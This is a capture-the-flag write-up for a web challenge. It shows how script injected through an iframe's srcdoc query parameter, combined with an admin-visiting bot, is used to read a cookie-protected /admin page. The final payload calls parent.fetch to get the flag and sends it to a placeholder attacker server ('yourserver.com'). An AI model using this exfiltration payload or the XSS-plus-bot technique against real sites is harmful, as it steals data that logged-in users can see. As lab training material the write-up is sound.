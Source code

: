## Overview

By inspecting the page you will see a `credentialless` iframe and a script.

```html
<script>
  document
    .querySelector("iframe")
    .setAttribute(
      "srcdoc",
      new URLSearchParams(document.location.search).get("srcdoc")
    );
</script>
```

As you can see you can easly inject JS code into the website by using a payload like: `http://localhost:3000/?srcdoc=<script>alert('0')</script>`

## Finding the flag

The website doesn't request an api, means we have to inspect the source code.

```md
./
├── bot.js
├── build-docker.sh
├── Dockerfile
├── flag.txt
├── index.js
├── package.json
```

- `index.js`

```js
const flag = fs.readFileSync("./flag.txt", "utf8").trim();
```

the flag variable isn't exposed at all, is is only used to verify access to `/admin`

```js
function check(req, res, next) {
  console.log("cookie", req.cookies);
  if (flag === req.cookies?.FLAG) {
    return next();
  } else {
    return res.status(403).send("Forbidden");
  }
}

app.get("/admin", check, (req, res) => {
  res.send(req.cookies?.FLAG ?? "flag{something something}");
});
```

## Observation

there's an endpoint that will let a bot visit the provided url

```js
const { visit } = require("./bot");
/* ... */
app.get("/bot", async (req, res) => {
  if (req.query?.url) await visit(req.query.url);
  res.send("If it's done it's done.");
});
```

- `bot.js`

the bot checks if url starts with `http://` before visiting it and sets the cookie value as the flag

```js
if (!url.startsWith("http://")) {
  throw new Error("invalid url");
}
await page.setCookie({
  name: "FLAG",
  value: flag,
  domain: DOMAIN,
  path: "/",
  httpOnly: true,
  secure: true,
  sameSite: "Lax",
});
```

We can't get the flag via document.cookie because of `httpOnly` and we can't get the flag in a request header because of `sameSite=Lax`.

Since the bot can access `/admin` which returns the flag (cookie) we will let the bot use it to expose the flag value and simply send it to our server.

The iframe is `credentialless` which means it doesn't have access to its regular origin's network, cookies, and storage data, so we will use `parent.fetch` instead of `fetch`

## Payload

```
http://localhost:3000/bot?url=http://127.0.0.1:3000/?srcdoc=<script type="module">
const resp = await parent.fetch("/admin", { credentials: "include" });
fetch(`http://yourserver.com?flag=${await resp.text()}`)
</script>
```

note: replace `http://localhost:3000` with instance ip
